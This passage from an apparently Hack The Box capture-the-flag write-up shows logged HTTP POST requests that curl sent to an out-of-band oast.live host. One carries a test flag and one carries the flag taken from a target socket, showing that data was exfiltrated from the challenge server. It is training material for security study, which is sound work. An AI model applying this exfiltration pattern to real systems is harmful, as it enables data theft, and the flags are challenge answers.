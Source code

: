 ```
------------
HTTP Request
------------

POST / HTTP/1.1
Host: cnvhqtlut6afj4d5cq20q5rhqnorn36kb.oast.live
Accept: */*
Content-Length: 26
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.64.0

HTB{f4k3_fl4g_f0r_t3st1ng}
```

We got the testing flag!

# Socket `94.237.49.166:45094`

Let's replicate this process to obtain the flag on the target machine.

```
------------
HTTP Request
------------

POST / HTTP/1.1
Host: cnvhqtlut6afj4d5cq20q5rhqnorn36kb.oast.live
Accept: */*
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.64.0

HTB{f1l3_r3tr13v4l_4s_4_s3rv1c3}
```

We got the flag!

# Afterwords
